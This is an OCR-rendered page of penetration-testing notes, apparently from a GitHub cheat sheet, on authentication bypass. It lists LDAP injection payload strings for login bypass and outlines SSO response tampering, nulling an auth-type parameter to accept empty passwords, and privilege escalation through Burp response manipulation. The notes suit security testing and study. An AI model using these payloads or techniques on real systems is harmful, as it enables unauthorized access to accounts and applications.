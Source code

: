 ### **LDAP Injection authentication bypass**

```bash
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```

### Improper Microsoft SSO Configuration

1. The application returned an unusually large content-length (over 40,000 bytes!) on the redirection response.
2. The application was leaking its internal responses to _every_ request while sending the user to the redirection to the SSO
3. So, it was possible to tamper the responses and change the _`302 Found`_ header to _`200 OK`_ and **delete** the entire *`Location* header`, **giving access to the whole application**

### Changing Authentication Type to Null

```bash
- A quick analysis showed it used an md5 value of the supplied password value. 
- There was another interesting sign in the request: scode had an attribute as type valued with 2.
- I tried assigning the value to 1, which would accept the cleartext password. It worked! 
- So, brute force within cleartext values was possible. Not a big deal, but it was a sign I was on the right path. 
- What about assigning it to the null values? Or other values such as -1, 0 or 9999999999? Most of them returned an error code except value 0. 
- I tried several things with the attribute *0* but had no luck until I sent the password value as an empty value.
- I realized it was possible to access any account by simply supplying the usernames and empty passwords. 
It turned out to be quite a big bug
```

### **PrevEsc Via Response manipulation**

```bash
# PrevEsc
1. Go to login Panel
2. Login With your Credentials
3. study the login process from Burp-suite logs
4. Understand how the server handles roles like user and admin 
5. try req/response manipulation to Prev-Esc for example manipulate parameters like [ role, ID, status code, false, true]
6. Play With the match and replace feature in Burp-suite
lol@sso.com → lol@gmail.com 
```
